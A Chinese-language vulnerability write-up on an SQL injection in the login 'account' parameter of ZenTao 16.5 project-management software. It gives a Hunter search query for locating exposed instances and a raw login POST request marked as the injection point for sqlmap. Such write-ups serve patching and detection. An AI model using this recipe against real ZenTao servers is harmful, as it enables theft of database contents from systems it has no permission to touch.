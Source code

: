 # 禅道 16.5 account SQL注入漏洞

# 一、漏洞简介
禅道由青岛易软天创网络科技有限公司开发，国产开源项目管理软件。它集产品管理、项目管理、质量管理、文档管理、组织管理和事务管理于一体，是一款专业的研发项目管理软件，完整覆盖了研发项目管理的核心流程。禅道 16.5 router.class.php 文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息，危害服务器安全。

# 二、影响版本
+ 禅道16.5

# 三、资产测绘
+ hunter`app.name="ZenTao 禅道"`
+ 特征

![1699714478551-516f3fa2-9e4b-4d88-9b29-fa34268af56c.png](./img/a7H1Slhd-hEcTkS9/1699714478551-516f3fa2-9e4b-4d88-9b29-fa34268af56c-608814.png)

# 四、漏洞复现
```plain
POST /zentao/user-login.html HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 137
Connection: close
Cookie: zentaosid=83503a42384249100e644a077c476c0c; lang=zh-cn; device=desktop; theme=default; windowWidth=1512; windowHeight=763

account=admin&password=91366fe23f8bf94e543b036e8fbcbc9c
```

sqlmap

![1699714542899-4cb34bcb-cf2f-44a1-8647-959493ec72b4.png](./img/a7H1Slhd-hEcTkS9/1699714542899-4cb34bcb-cf2f-44a1-8647-959493ec72b4-906892.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/kw41ggrplhegs76s>